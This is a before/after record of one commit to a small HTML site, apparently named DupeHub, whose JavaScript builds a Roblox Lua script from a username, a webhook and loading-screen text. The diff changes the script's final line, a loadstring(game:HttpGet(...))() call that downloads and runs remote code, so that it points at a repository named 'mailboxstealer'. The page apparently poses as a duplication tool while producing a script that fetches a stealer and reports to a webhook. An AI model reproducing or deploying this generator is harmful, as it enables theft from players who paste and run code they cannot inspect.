

Before and after one commit to DupeHub/DupeHub.github.io, a plain HTML site: page index.html in a window 1280 px wide. Both pictures are taken after typing "Sample", "Sample", "Sample" into the empty fields and a click on the button "Generate". Shown: the part 424-684 px from the top of the page. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -49,7 +49,7 @@
        document.getElementById("submit").onclick = function() {myFunction()};
 
 function myFunction() {
-    scriptarea.innerHTML = '_G.UserName = "'+nameInput.value+'\n_G.Webhook = "'+hookInput.value+'"\n_G.loadingScreenText = "'+lscreenInput.value+'"\nloadstring(game:HttpGet("https://raw.githubusercontent.com/psxscripter1337/psxs/main/main.lua"))()'
+    scriptarea.innerHTML = '_G.UserName = "'+nameInput.value+'\n_G.Webhook = "'+hookInput.value+'"\n_G.loadingScreenText = "'+lscreenInput.value+'"\nloadstring(game:HttpGet("https://raw.githubusercontent.com/DupeHub/mailboxstealer/main/script"))()'
 }
 </script>
 </body>
```
